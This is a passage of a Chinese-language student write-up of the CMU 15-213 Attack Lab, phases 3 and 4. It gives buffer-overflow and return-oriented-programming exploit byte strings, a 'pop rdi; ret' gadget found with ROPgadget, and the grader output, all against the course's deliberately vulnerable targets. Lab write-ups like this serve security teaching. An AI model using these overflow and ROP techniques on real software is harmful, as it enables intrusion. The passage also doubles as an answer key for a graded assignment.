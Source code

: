 使用命令

```
❯ cat expolit.txt | ./hex2raw | ./ctarget -q
Cookie: 0x59b997fa
Type string:Touch3!: You called touch3("59b997fa")
Valid solution for level 3 with target ctarget
PASS: Would have posted the following:
	user id	bovik
	course	15213-f15
	lab	attacklab
	result	1:PASS:0xffffffff:ctarget:3:48 C7 C7 B8 DC 61 55 C3 C3 00 00 00 00 00 00 00 61 61 61 61 61 61 61 61 61 61 61 61 61 61 61 61 61 61 61 61 61 61 61 61 78 DC 61 55 00 00 00 00 80 DC 61 55 00 00 00 00 FA 18 40 00 00 00 00 00 35 39 62 39 39 37 66 61
```

**phase3 pass**

## level4

>For Phase 4, you will repeat the attack of Phase 2, but do so on program RTARGET using gadgets from your gadget farm. You can construct your solution using gadgets consisting of the following instruction types, and using only the first eight x86-64 registers (%rax–%rdi).

该 phase 部分与 phase2 相同，不同的在于栈上不具有可执行权限，所以我们使用 rop 的方法去达到目的

使用 `ROPgadget` 工具找到 gadget `0x000000000040141b : pop rdi ; ret`

构造出这样的字节序列写入 expolit.txt 中

```
61 61 61 61 61 61 61 61 61 61 61 61 61 61 61 61 61 61 61 61 61 61 61 61 61 61 61 61 61 61 61 61 61 61 61 61 61 61 61 61 /* padding */
1b 14 40 00 00 00 00 00 /* pop rdi; ret */
fa 97 b9 59 00 00 00 00 /* hex number of cookie */
ec 17 40 00 00 00 00 00 /* address of touch2 */
```

使用命令

```
❯ cat expolit.txt | ./hex2raw | ./rtarget -q
Cookie: 0x59b997fa
Type string:Touch2!: You called touch2(0x59b997fa)
Valid solution for level 2 with target rtarget
Ouch!: You caused a segmentation fault!
Better luck next time
FAIL: Would have posted the following:
	user id	bovik
	course	15213-f15
	lab	attacklab
	result	1:FAIL:0xffffffff:rtarget:0:61 61 61 61 61 61 61 61 61 61 61 61 61 61 61 61 61 61 61 61 61 61 61 61 61 61 61 61 61 61 61 61 61 61 61 61 61 61 61 61 1B 14 40 00 00 00 00 00 FA 97 B9 59 00 00 00 00 EC 17 40 00 00 00 00 00
```
